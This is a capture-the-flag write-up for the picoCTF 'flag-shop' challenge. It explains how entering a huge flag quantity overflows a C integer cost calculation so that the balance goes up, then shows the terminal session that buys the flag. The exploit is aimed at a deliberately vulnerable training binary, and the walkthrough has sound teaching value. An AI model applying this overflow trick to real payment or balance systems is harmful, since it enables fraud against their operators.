 # flag-shop
This is a CTF where we have to trick the flag-shop owner to get our hands on the flag. This is very easy.

## Solution
Download the `Source` code - `store.c` mentioned in the problem and check it out. We make the below observations which we will be used in the solution(other observations may not be required)-
1. Initial balance = 1100
2. We need to make money > 100000, then we can obtain the flag. 
3. We can buy 900$ flags, but we cannot input a negative number. 
4. Our code only checks if number of input flags>0 for 900$ case

Now run the netcat link to open our flag-shop. We get various options as expected. From our understanding of code and the fact code is in "C language", we can use the concept of overflow i.e. a very huge number wraps around and becomes negative or positive(depends on number). <br>
Now we can simply input a suitable number which will become negative and using the maths of code (i.e. balance = original - cost), since cost becomes negative, our balance will increase.
<br>

Now we perform the following tasks-
```bash
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
12345678

The final cost is: -1773791688

Your current balance after transaction: 1773792788

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
1



 Balance: 1773792788


Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selectionWelcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
12345678

The final cost is: -1773791688

Your current balance after transaction: 1773792788

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{...flag...}
```
And we are done.
